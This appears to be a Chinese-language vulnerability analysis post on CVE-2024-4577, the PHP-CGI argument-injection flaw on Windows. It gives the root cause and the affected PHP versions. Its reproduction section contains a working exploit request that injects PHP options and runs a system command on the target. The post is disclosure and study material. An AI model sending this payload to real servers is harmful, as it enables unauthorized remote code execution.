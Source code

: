 #  漏洞分析|PHP-CGI Windows平台远程代码执行漏洞（CVE-2024-4577）   
 XDsecurity   2024-06-16 12:12  
  
# 1.漏洞描述  
  
CVE-2024-4577  
导致漏洞产生的本质其实是  
Windows  
系统内字符编码转换的  
Best-Fit  
特性导致的，相对来说  
PHP  
在这个漏洞里更像是一个受害者。  
  
PHP语言在设计时忽略了Windows系统内部对字符编码转换的Best-Fit特性，当PHP运行在Window平台且使用了如繁体中文(代码页950)、简体中文(代码页936)和日文(代码页932)等语系时，威胁者可构造恶意请求绕过CVE-2012-1823的保护，通过参数注入等攻击在目标PHP服务器上远程执行代码。  
  
# 2.影响版本  
  
PHP 8.3 < 8.3.8  
  
PHP 8.2 < 8.2.20  
  
PHP 8.1 < 8.1.29  
  
该漏洞影响安装于Windows系统上的PHP 版本。由于PHP 8.0 分支、PHP 7 以及PHP 5 官方已不再维护  
。  
  
# 3.影响范围  
  
![](https://mmbiz.qpic.cn/mmbiz_png/p7qXe6CibbURYhqU4yHFXsiblQVgrs4xCDHJyu4QzszoIFL6KRVIvfLaprsUAfSsHoDTaftmpD7kubUH7xGD1TGQ/640?wx_fmt=png&from=appmsg "")  
#   
# 4.漏洞复现  
```
POST /php-cgi/php-cgi.exe?%add+allow_url_include%3d1+%add+auto_prepend_file%3dphp://input%20 HTTP/1.1
Host: 127.0.0.1
User-Agent: Opera/9.98.(Windows 98; Win 9x 4.90; fur-IT) Presto/2.9.173 Version/11.00
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
REDIRECT-STATUS: 1
Content-Length: 22

<?php system("dir");?>
```  
  